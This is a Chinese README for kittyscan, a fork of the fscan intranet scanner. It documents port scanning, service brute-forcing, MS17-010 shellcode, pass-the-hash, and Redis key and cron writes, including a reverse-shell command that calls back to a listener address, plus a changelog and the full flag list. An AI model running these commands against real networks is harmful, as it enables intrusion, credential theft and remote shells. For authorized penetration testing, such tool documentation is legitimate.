



# kittyscan v1.2

[English][url-docen]

> **本项目基于 [fscan](https://github.com/shadow1ng/fscan) 1.8.4 二次开发**（MIT License · Copyright (c) 2021 shadow1ng），
> 保留原作者版权与许可声明，详见 [LICENSE.txt](LICENSE.txt)。
> 相对原版的全部差异见下方 **第 3 节《相对 fscan 1.8.4 的更新与修复》**，v1.0 / v1.1 阶段的逐项变更明细见 [CHANGELOG\_v1.0.md](CHANGELOG_v1.0.md)。
> 
> ⚠️ **免责声明**：本工具仅限在**已获明确授权**的环境中使用。禁止对未授权目标进行扫描或攻击；因滥用造成的任何后果由使用者自行承担。

# 1. 简介

一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。
支持主机存活探测、端口扫描、常见服务的爆破、MS17-010、Redis 批量写公钥、计划任务反弹 shell、读取 Win 网卡信息、Web 指纹识别、Web 漏洞扫描、NetBIOS 探测、域控识别等功能。

kittyscan 在 fscan 1.8.4 的基础上，沿三个方向持续改进：

- **覆盖更广**：服务插件 24 → 41，POC 386 → 688，默认端口 21 → 143，密码字典、爆破服务同步扩充；
- **判定更准**：新增 WinRM NTLM 爆破、修复 LDAP/Kafka/Rsync 等协议实现错误（原版 100% 漏报）、按 nuclei 模板收紧指纹与 POC 误报；
- **跑得更稳**：数据库爆破无超时挂死、RDP 爆破死锁、727 个并发 DATA RACE、Redis RESP 解析错位等稳定性问题全部修复，并通过 `-race`、真实环境、靶机三类验证。

# 2. 主要功能

1. 信息搜集：

- 存活探测（ICMP / `-ping`）
- 端口扫描（支持 `-syn` 半连接扫描，需管理员/root）
- 流水线调度：发现端口即并行触发 WebTitle 与服务爆破

2. 爆破功能：

- 各类服务爆破：SSH、SMB、RDP、**WinRM**、FTP、Telnet、VNC、SVN、LDAP、Elasticsearch、Tomcat、WebLogic、ActiveMQ、RabbitMQ、Kafka、Zookeeper、Rsync、SNMP 等
- 数据库密码爆破：MySQL、MSSQL、PostgreSQL、Oracle、Redis、MongoDB 等
- `-br N` 单目标爆破并发（对**全部**爆破模块生效，默认 1 = 串行）

3. 系统信息、漏洞扫描：

- NetBIOS 探测、域控识别
- 获取目标网卡信息
- 高危漏洞扫描（MS17-010 等）

4. Web 探测：

- WebTitle 探测
- Web 指纹识别（常见 CMS、OA 框架等）
- **纯指纹模式**：`-m finger`（先端口扫描再识别指纹）、`-m fingeronly`（跳过端口扫描，直接按 Web 端口探测）
- Web 漏洞扫描（WebLogic、Struts2 等，支持 xray 格式 POC），DnsLog 反连检测默认开启（`-nodns` 关闭，`-ceye-key`/`-ceye-domain` 可覆盖凭据）

5. 漏洞利用：

- Redis 写公钥或写计划任务
- SSH 命令执行
- MS17017 利用（植入 shellcode），如添加用户等

6. 输出与其他：

- 标签化彩色输出：`[port]` / `[web]` / `[info]` / `[vul]`，POC 命中附完整请求、匹配表达式与响应片段
- `-json` NDJSON 结果输出、`-silent` 静默、`-nocolor` 去色
- Ctrl+C 优雅退出（停止派发 → 在途结果落盘 → 打印完成统计）
- 随机扫描延迟（默认开启，`-nodelay` 关闭）、`-tls` 最低 TLS 版本、`-maxconns` 每主机连接数、7 个最新 User-Agent 随机轮换

# 3. 相对 fscan 1.8.4 的更新与修复

## 3.1 规模对比

| 项目 | fscan 1.8.4 | kittyscan v1.2 |
| --- | --- | --- |
| 服务插件（`Plugins/*.go`） | 24 | **41** |
| POC（`WebScan/pocs/*.yml`） | 386 | **688** |
| 默认扫描端口 | 21 | **143** |
| Go 源码行数 | 约 7,700 | **约 14,200** |

默认行为差异：

| 项目 | fscan 1.8.4 | kittyscan v1.2 |
| --- | --- | --- |
| 默认线程数 `-t` | 600 | 100（更隐蔽） |
| 默认输出文件 `-o` | `result.txt` | `output.txt` |
| DnsLog 反连检测 | 默认关闭（`-dns` 开启） | **默认开启**（`-nodns` 关闭） |
| 扫描延迟 | 无 | 默认随机延迟（`-nodelay` 关闭） |
| 代理参数 | `-proxy` + `-socks5` 两个参数 | 统一为 `-proxy`（按协议分流，见 3.2） |
| 帮助 | 无 | `-help` 中文帮助 / `-hen` 英文帮助（均带样例） |

## 3.2 新增功能

- **15 个新服务插件**：Elasticsearch、Tomcat、WebLogic、ActiveMQ、VNC、SVN、LDAP、Zookeeper、Kafka、RabbitMQ、Rsync、Telnet、SNMP、RTSP、**WinRM（完整 NTLM 口令爆破）**
- **纯指纹识别模式**：`-m finger` / `-m fingeronly`（只出指纹，不跑 POC、不爆破）
- **SYN 半连接扫描**：`-syn`（Linux root 原始套接字，其余环境自动降级 TCP Connect）
- **中英文帮助**：`-help` / `-hen`，每个参数带示例
- **反连凭据可覆盖**：`-ceye-key` / `-ceye-domain`
- **统一代理入口 `-proxy`**：
  - `-proxy http://...` → 仅 HTTP（Web/POC）出口，端口扫描与爆破等 TCP 流量直连；
  - `-proxy socks5://...` → 全局代理，所有 TCP 拨号与 Web/POC 请求均走代理（自动跳过 ICMP 探测）；
  - 支持 `host:port`、纯端口、`-proxy 1`（Burp）、`-proxy 2`（SOCKS5）等快捷写法；**原 `-socks5` 已并入本参数，老脚本需改写为 `-proxy socks5://...`**
- **`-br` 爆破并发扩展到全部爆破模块**（原版仅 RDP 生效，实测约 3.6 倍提速）
- **输出增强**：`[port]/[web]/[info]/[vul]` 标签化彩色输出；POC 命中输出完整请求、Match 表达式与 Response 片段；`-json` 为合法 NDJSON
- **端口 / 字典 / POC 扩展**：默认端口 21 → 143；密码字典 70 → 100+（年份变体、键盘序列、服务默认口令等）+ 9 个新服务的账号字典；POC 386 → 688（含 Spring Actuator、VMware、Nacos、国产 OA/CMS 等），并**清理 11 个只判 `status=200` 的高误报 POC**
- **时间盲注支持**：POC 规则 `response.duration >= 秒数`
- **POC 规则短路字段**：`stop_if_match`（本条命中即停并判定本组命中，OR 型"找到就收工"）/ `stop_if_mismatch`（本条不命中即停，与顺序 AND 链默认行为一致），语义对齐 afrog/xray
- **工程化**：`build.py` 一键多平台构建（UPX 压缩可选，未安装自动跳过）、`os.Stdout` 实时刷新、爆破超时分级（SSH 1s / 其他 2s）
- **Ctrl+C 优雅退出**：停止派发新任务 → 在途结果落盘（8s 兜底）→ 打印完成统计 → 退出码 130

## 3.3 修复的 Bug

代码审查共发现 **112 个问题（12 high / 46 medium / 54 low）**，逐条复核后分 9 批修复；下表为代表性条目。

### 高危 12 项（第一批）

| # | 问题 | 后果 → 修复 |
| --- | --- | --- |
| 1 | Postgres / MySQL / MSSQL 无 IO 超时 | 目标不回包时爆破**永久挂死** → 加 `connect_timeout`/读写超时，blackhole 从 30s+ 挂死变 2.2s 正常结束 |
| 2 | RDP 爆破成功即**死锁** | `brlist` 改带缓冲，成功/失败两条路径都能正常收尾 |
| 3 | CIDR `/7`\\~`/0` 无上限展开 | 大网段直接 OOM → 新增展开上限 65536，超限明确提示并跳过该目标 |
| 4 | Linux SYN 校验和伪头部没填 IP | 校验和全错 → 按 RFC793 布局填真实源/目的 IP |
| 5 | Linux SYN 用 `IPPROTO_RAW` 收包 | 只能发不能收 → 改 `IPPROTO_TCP` 收发共用 |
| 6 | `-hn` 对 `-hf` 的 `ip:port` 目标失效 | **授权边界**问题：被排除的主机仍被扫 → 过滤移到 `ParseIP` 源头，host/port 分别比对 |
| 7 | 302 跨域跳转把 POC 打到外部域名 | **越界**问题 → 跳转后还原原始 URL，POC 固定打原始 host |
| 8 | POC 响应 header 小写键取值报 `no such key` | 约 30 个 POC 永久失效（含 Nacos）→ 响应头双写 canonical + 小写两套键，规则求值错误不再被吞 |
| 9 | LDAP Bind 判定 BER 字节位全错 | 100% 漏报 → 重写 BER 解析 |
| 10 | Kafka 报文 topics 少 2 字节且未读满 | 100% 漏报 → 长度字段补足 + `io.ReadFull` |
| 11 | Rsync 从不发送密码 | 100% 漏报 → 按 rsync 官方源码重写认证（MD4/MD5 digest），未授权判据同步重构防误报 |
| 12 | Redis `-rf`/`-rs` 出错时跳过 recoverdb | **破坏性**：可能覆盖目标真实公钥 → 恢复动作改 `defer` 覆盖全部返回路径 |

另有：`synscan_linux.go` 原版在 Linux 上根本编译不过（`Timeval` 字段宽度）；ICMP 一对多映射导致 `localhost`+`127.0.0.1` 只报一个存活。

### 中危 42 项（第二批，摘要）

- `response.raw_header` / `output` 字段缺失导致 **8 个 POC 长期失效（含用友 NC 3 个）** → 补齐字段支持，救回全部死 POC
- `-json` 输出双坏、`-silent` 完全失效、`-pa` 破坏端口收敛、`-m hostname/wmiinfo/smbinfo` 死模式
- 5985 端口被误映射为 LDAP、VNC 3.3 版本死分支、ActiveMQ 打错端口
- 时间盲注 POC 因 5s 超时必失败、fcgi 系统性误报、`-br` 仅 RDP 生效 等

### WinRM（新增模块自身的三轮修复）

- 新增完整 NTLM 爆破插件 `Plugins/winrm.go`（约 600 行，Type1/Type2/Type3 完整流程）
- **正确口令不出 `[vul]` 的两道门槛**：① Type1 缺 `NTLMSSP_NEGOTIATE_SEAL(0x20)`（逐位二分证实是充要条件，补 Type3 AV/MIC 无效）② 认证成功后 Identify 报文返回 500（第 3 段改发空报文 → 200）
- 连接 pin 修复使连接失败率 **87% → 0**；公网 20000 次弱口令验证无误报

### 并发与稳定性（收尾批次）

- `-race` 实测捕获 **727 个 DATA RACE**（grdp glog 全局写、`signal` 自旋读写 ×2、`*num` 锁内外）→ 修复后 5 轮复测全部为 0
- RDP 爆破死锁经 Windows 靶机实测：正确口令出 `[vul]`、错误口令无误报、`-br 2` 并发秒退
- Ctrl+C 退出竞态、原子变量、随机源、参数警告、NetBIOS 读满等 low 项

### Redis（专项）

- RESP 解析字节错位 → `getconfig` 恒失败、`-rf`/`-rs` 实际不可达、错误口令回显 `<nil>`
- 改为无前缀契约解析 + `-` 应答转真实错误 + 空数组/错误回复不再写回垃圾配置；Kali Redis 7.0.15 全矩阵验证通过（含写公钥/写 cron 后配置恢复）

### 其他修复

- `-nobr` 语义修正：不再隐含 `-nopoc`，漏洞检测照常执行
- `-rf` / `-sshkey` / `-pocpath` 支持带 BOM/UTF-16 编码的输入文件
- 参数解析失败由静默改为**报错并以退出码 1 结束**；`-silent` 下的漏网打印全部收敛
- GBK 页面中文指纹不命中、`-proxy host:port` 被拼成 `http://127.0.0.1:127.0.0.1:8080`、SYN 并发漏报（靶场 10/10 复验）等
- 指纹与 POC 质量：依据 nuclei-templates（23.5 万模板）**收紧 5 条易误报指纹、复活 3 条死规则**；telnet/snmp/tomcat 判定修正；删除 11 个高误报 POC

## 3.4 验证情况

- 6 组并行代码审查 112 个问题，复核剔除 4 条误报，已修复 9 批并逐批回归
- `-race`（CGO + GCC）：修复前 10 轮捕获 727 个竞态 → 修复后 5 轮全 0
- 真实环境 16 项验证（公网资产 + Kali 靶场）15 项闭环
- Windows 靶机实测：RDP 死锁/正确口令、WinRM 正确口令 `[vul]` 与并发、无误报
- 每批改动均通过 **Windows + `GOOS=linux` 双平台编译**，`gofmt` / `go vet` 干净

## 3.5 已知限制

- `-br N>1` 时，`[vul]` 在连接内的插件若多 worker 同时成功可能输出多条；**Redis 建议 `-br 1`**
- WinRM canary 检测会在目标安全日志留下 1 次不存在账号的失败登录（防误报的设计代价）
- `-noredis` 只跳过写入动作，未授权检测与爆破照常执行

# 4. 使用说明

简单用法：

```
kittyscan.exe -h 192.168.1.1/24        (默认使用全部模块)
kittyscan.exe -h 192.168.1.1/16        (B段扫描)
```

其他用法：

```
kittyscan.exe -h 192.168.1.1/24 -np -no -nopoc   (跳过存活检测、不保存文件、跳过web poc扫描)
kittyscan.exe -h 192.168.1.1/24 -rf id_rsa.pub   (redis 写公钥)
kittyscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
kittyscan.exe -h 192.168.1.1/24 -c whoami        (ssh 爆破成功后，命令执行)
kittyscan.exe -h 192.168.1.1/24 -m ssh -p 2222   (指定模块ssh和端口)
kittyscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
kittyscan.exe -h 192.168.1.1/24 -o /tmp/1.txt    (指定扫描结果保存路径,默认保存在当前路径)
kittyscan.exe -h 192.168.1.1/8                   (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息)
kittyscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
kittyscan.exe -h 192.168.1.1/24 -m ms17010       (指定模块)
kittyscan.exe -hf ip.txt                          (以文件导入)
kittyscan.exe -u http://baidu.com -proxy 8080     (扫描单个url,并设置http代理 http://127.0.0.1:8080)
kittyscan.exe -h 192.168.1.1/24 -proxy socks5://127.0.0.1:1080 (全局代理:所有TCP拨号与Web/POC请求都走代理)
kittyscan.exe -h 192.168.1.1/24 -nobr -nopoc     (不进行爆破,不扫Web poc,以减少流量)
kittyscan.exe -h 192.168.1.1/24 -pa 3389         (在原基础上,加入3389->rdp扫描)
kittyscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,推荐使用专项利用工具)
kittyscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash)
kittyscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
kittyscan.exe -m finger -h 192.168.1.1/24 -p 80,443,8080 (纯指纹:先端口扫描再识别web指纹,自动跳过POC与爆破)
kittyscan.exe -m fingeronly -h 192.168.1.1       (纯指纹:跳过端口扫描,直接按Web端口列表探测并识别指纹)
kittyscan.exe -u http://192.168.1.1:8080 -m finger (单URL纯指纹识别)
kittyscan.exe -h 192.168.1.1/24 -syn             (SYN半连接扫描,需管理员/root)
kittyscan.exe -h 192.168.1.1/24 -br 8            (单目标爆破并发,全部爆破模块生效)
kittyscan.exe -h 192.168.1.0/24 -nodns           (禁用DnsLog反连检测)
```

编译：

```powershell
# Windows
go build -ldflags="-s -w" -trimpath -o kittyscan.exe main.go

# Linux 交叉编译（注意：_linux 文件不参与 Windows 构建，必须交叉编译才能发现其编译错误）
$env:GOOS="linux"; $env:GOARCH="amd64"; go build -trimpath -o kittyscan main.go

# 一键多平台构建（UPX 压缩可选，未检测到 upx 会自动跳过）
python build.py
```

完整参数（等同于直接运行 `kittyscan.exe -help`，英文版见 `-hen`）：

```
--------------------------------------
用法: kittyscan.exe [选项]
      -help 显示本中文帮助，-hen 显示英文帮助

目标:
  -h  string   扫描目标IP/域名/CIDR
                例: -h 192.168.1.1
                例: -h 192.168.1.0/24
                例: -h 192.168.1.1,192.168.1.2
  -hn string   排除指定主机
                例: -hn 192.168.1.1/24
  -hf string   从文件批量读取目标
                例: -hf ip.txt

存活探测:
  -np          跳过存活探测直接扫描端口
  -ping        使用Ping替代ICMP探测存活

端口:
  -p  string   指定扫描端口（默认143个常用端口）
                例: -p 22
                例: -p 1-65535
                例: -p 22,80,3306
  -pa string   追加端口到默认列表
                例: -pa 3389
  -pn string   排除指定端口
                例: -pn 445
  -portf string  从文件读取端口
                例: -portf ports.txt

扫描类型:
  -m  string   指定扫描类型（默认 all）
                例: -m all        全扫描（端口+服务+Web）
                例: -m ssh        仅SSH爆破
                例: -m redis      仅Redis未授权/爆破
                例: -m mysql      仅MySQL爆破
                例: -m web        仅Web漏洞扫描
                例: -m finger     仅Web指纹识别（自动跳过POC与爆破）
                例: -m fingeronly 仅Web指纹识别且跳过端口扫描（直接按Web端口探测）
                例: -m portscan   仅端口扫描
                例: -m icmp       仅存活探测
                例: -m ms17010    仅MS17-010检测

Web扫描:
  -u  string   直接指定URL进行扫描
                例: -u http://192.168.1.1:8080
  -uf string   URL文件批量扫描
                例: -uf urls.txt
  -pocname string  按名称筛选POC
                例: -pocname weblogic
  -pocpath string  自定义POC目录
                例: -pocpath /path/to/pocs
  -full        POC全量扫描（如Shiro全部Key）
  -dns         使用DnsLog检测无回显漏洞（默认开启）
  -nodns       禁用DnsLog反连检测
  -ceye-key string  覆盖ceye反连API Key（留空则使用内置默认值）
                例: -ceye-key 0123456789abcdef0123456789abcdef
  -ceye-domain string  覆盖ceye二级域名（留空则使用内置默认值）
                例: -ceye-domain abc.ceye.io
  -nopoc       跳过Web漏洞扫描（仅做端口和服务检测）
  -cookie string  设置请求Cookie
                例: -cookie rememberMe=login
  -proxy string   设置代理（按协议区分作用域，原 -socks5 已并入本参数）
                http://   → 仅 HTTP(Web/POC) 出口，端口/爆破等TCP流量直连
                socks5:// → 全局代理，所有TCP拨号(端口/服务/爆破)与Web/POC请求均走代理(自动跳过ICMP探测)
                例: -proxy http://127.0.0.1:8080
                例: -proxy socks5://127.0.0.1:1080
                例: -proxy 127.0.0.1:8080    (默认HTTP)
                例: -proxy 8080              (默认127.0.0.1)
                例: -proxy 1                 (Burp默认，仅HTTP)
                例: -proxy 2                 (SOCKS5默认，全局)
  -num int     POC并发数（默认20）
                例: -num 50

账号爆破:
  -user string   指定用户名
                例: -user admin
  -pwd  string   指定密码
                例: -pwd 123456
  -userf string  从文件读取用户名
                例: -userf user.txt
  -pwdf string  从文件读取密码
                例: -pwdf pass.txt
  -usera string  追加用户名到默认列表
                例: -usera testuser
  -pwda string  追加密码到默认列表
                例: -pwda P@ssw0rt1
  -nobr        跳过密码爆破（漏洞检测照常执行）

特殊功能:
  -c  string   SSH/WmiExec远程执行命令
                例: -c whoami
  -sshkey string  SSH密钥文件
                例: -sshkey id_rsa
  -domain string  SMB域
                例: -domain WORKGROUP
  -sc  string   MS17-010 Shellcode
                例: -sc add
  -hash string   SMB NTLM Hash
                例: -hash aad3b435b51404eeaad3b435b51404ee
  -rf  string   Redis写入SSH公钥文件
                例: -rf id_rsa.pub
  -rs  string   Redis写入计划任务反弹Shell
                例: -rs 192.168.1.1:6666
  -path string  Fcgi/SMB远程文件路径
                例: -path /www/wwwroot/index.php
  -noredis     跳过Redis未授权写入测试
  -wmi         135端口发现时额外尝试WMI命令执行
  -syn         SYN半连接扫描（需管理员/root权限）

性能调优:
  -t  int       并发线程数（默认100）
                例: -t 500
  -time int     连接超时秒（默认3）
                例: -time 5
  -wt  int      Web请求超时秒（默认5）
                例: -wt 10
  -br  int      单目标爆破并发数（默认1=串行，全部爆破模块生效）
                例: -br 5
  -num int      POC并发数（默认20）
                例: -num 50
  -tls int      TLS最低版本（默认10）
                例: -tls 12   (更安全)
                例: -tls 13   (最新)
  -maxconns int 每主机最大连接数（默认10）
                例: -maxconns 20
  -nodelay     禁用随机扫描延迟（默认开启延迟）
                Web请求延迟100-300ms，爆破延迟50-100ms

输出控制:
  -o  string    输出文件（默认 output.txt）
                例: -o output.txt
  -no           不保存结果到文件
  -json         JSON格式输出
  -silent       静默模式
  -nocolor      禁用彩色输出
  -top int      显示存活主机TOP数（默认10）
                例: -top 20
  -debug int    进度日志间隔秒（默认60）
                例: -debug 30

常用示例:
  kittyscan.exe -h 192.168.1.0/24
  kittyscan.exe -h 192.168.1.1 -m ssh -t 100
  kittyscan.exe -h 192.168.1.1 -p 80,443,8080 -m all
  kittyscan.exe -hf ip.txt -p 22,3306,6379
  kittyscan.exe -u http://192.168.1.1:8080 -pocname struts2
  kittyscan.exe -h 192.168.1.0/24 -m ssh -user admin -pwdf pass.txt
  kittyscan.exe -h 192.168.1.0/24 -nodns          禁用反连检测
```

# 5. 运行截图

编译脚本截图


存活探测截图


漏洞扫描截图



# 6. 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

为避免被恶意使用，本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描。**

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。
除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

[url-docen]: README_EN.md

